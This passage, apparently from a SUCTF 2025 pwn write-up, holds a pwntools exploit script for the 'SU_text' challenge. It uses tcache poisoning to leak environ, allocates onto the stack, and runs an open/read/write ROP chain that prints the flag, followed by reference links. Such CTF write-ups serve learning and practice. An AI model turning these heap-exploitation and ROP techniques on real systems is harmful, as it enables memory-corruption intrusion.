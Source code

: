 ```py
p.recvuntil("Please input some text (max size: 4096 bytes):\n")
p.send(payload4)
# tcache poisoning to environ leak

p.recvuntil("Please input some text (max size: 4096 bytes):\n")
environ = libc_base + libc.symbols["environ"] - 0x18 # 对齐
print(hex(environ))
fd = environ ^((heap_base//0x1000) + 1)
payload5 = vm_start(3)+xor_op(1,1)*0x100 + store(0x20,fd)+vm_end()+create(8,0x480)+create(9,0x480)+vm_start(9)+load(0x18)+show(-14)+vm_end()+b"\x03"
p.send(payload5)
environ_leak = u64(p.recv(6).ljust(8,b"\x00"))
print(hex(environ_leak))
# allocate to stack 0x7fff73638148 0x7fff736382a8
start_offset = 0x10
ret_addr = environ_leak - 0x1a8+0x48 - 0x10  # TODO
if ret_addr %16 != 0:
    ret_addr = ret_addr - 8
    start_offset += 8
fd = ret_addr ^ ((heap_base//0x1000) + 2)
payload6 = create(10,0x4a8)+create(11,0x4b0)+create(12,0x4b0)+remove(12)+remove(11)+vm_start(10)+xor_op(0,0x30)+xor_op(1,1)+xor_op(0,0x67616c66)+xor_op(1,1)*0xfd + store(0xb0,fd)+vm_end()+b"\x03"
p.recvuntil("Please input some text (max size: 4096 bytes):\n")
p.send(payload6)
# stack located at 12
pop_rdi = 0x10f75b + libc_base
pop_rsi = 0x110a4d + libc_base
pop_rax = 0xdd237 + libc_base
mov_rdx = 0x00bf450 + libc_base # mov rdx, qword ptr [rsi] ; mov qword ptr [rdi], rdx ; ret
syscall = 0x00011BA5F + libc_base
size_addr = heap_base + 0x20b0
flag_addr = heap_base + 0x20b8

rop=p64(pop_rdi)+p64(flag_addr)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
# rop+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(libc_base+libc.symbols["read"]) # TODO fix this
rop += p64(pop_rdi)+p64(heap_base)+p64(pop_rsi)+p64(size_addr)+p64(mov_rdx)+p64(pop_rdi)+p64(3) + p64(pop_rsi)+p64(flag_addr)+p64(libc_base+libc.symbols["read"])
# rop+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(libc_base+libc.symbols["write"])
rop += p64(pop_rdi)+p64(heap_base)+p64(pop_rsi)+p64(size_addr)+p64(mov_rdx)+p64(pop_rdi)+p64(1) + p64(pop_rsi)+p64(flag_addr)+p64(libc_base+libc.symbols["write"])
# assemble rop from the start_offset
rop_payload = b""
for i in range(0,len(rop),8):
    rop_payload += store(i+start_offset,u64(rop[i:i+8]))

payload7 = create(11,0x4b0)+create(12,0x4b0)+vm_start(12)+rop_payload+vm_end()+b"\x03"

p.recvuntil("Please input some text (max size: 4096 bytes):\n")
p.send(payload7)
p.interactive()

```
### reference
- https://blog.xmcve.com/2025/01/14/SUCTF2025-Writeup/#title-27
- https://github.com/team-su/SUCTF-2025/tree/main/pwn/SU_text/writeup
